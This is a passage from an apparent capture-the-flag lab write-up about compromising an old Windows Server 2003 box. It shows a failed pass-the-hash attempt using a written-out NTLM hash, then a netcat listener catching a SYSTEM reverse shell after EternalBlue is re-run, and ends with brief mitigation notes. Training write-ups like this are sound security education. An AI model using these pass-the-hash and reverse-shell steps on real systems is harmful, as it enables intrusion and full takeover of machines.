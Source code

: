 These are the password hashes of all the users on the machine. And on old windows systems they are very easily crackable. I’m trying to use Pass-the-Hash here to get shell access. 

```
kali@kali:/opt/CrackMapExec$ pth-winexe -U Administrator%0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548::: //127.0.0.1 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
ERROR: Cannot connect to svcctl pipe. NT_STATUS_IO_TIMEOUT.

```

But it does not work for some reason. I tried a python script named psexec.py as well, but nothing. Since this did not work as expected. I ended up just using the nc.exe binary we uploaded earlier.

Just running the eternalblue exploit again with the nc command. And having a listener:

```
kali@kali:/opt/CrackMapExec$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.86.77 1067
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

I’m very happy I used eternalblue without metasploit for once. But I am disappointed that the pass-the-hash method did not work. Really good to get some port forwarding practice in. 


## Comparing myself to the official writeup:

The official writeup used the exact same process as Granny. Just find the exploit. Meterpreter. Local exploit suggester. Metasploit. root.

## How to stop this exploit:

Buffer overflow exploit is the same as I used on Granny. And since I used the same one here, I did a secondary method on that box. So the fix is the same. Update/patch/stay alert. Or fix the function itself.

And for the exploit, it’s don’t let users run binaries, update system so we don’t allow for Eternalblue, dont let users download files with ftp or smb.
